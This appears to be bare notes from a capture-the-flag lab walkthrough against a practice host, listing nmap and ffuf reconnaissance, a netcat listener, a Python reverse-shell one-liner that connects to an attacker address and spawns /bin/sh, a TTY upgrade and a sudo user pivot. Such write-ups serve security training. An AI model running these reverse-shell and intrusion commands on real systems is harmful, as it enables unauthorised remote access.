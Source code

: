 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.68
```
![image](https://user-images.githubusercontent.com/33616880/231078057-77c3fa36-7209-4521-8619-dacbe002e5e0.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231078144-85f18b51-a11c-4111-8827-4e1957812732.png)

https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux

```
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)


```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
```
sudo -u scriptmanager bash -i
```
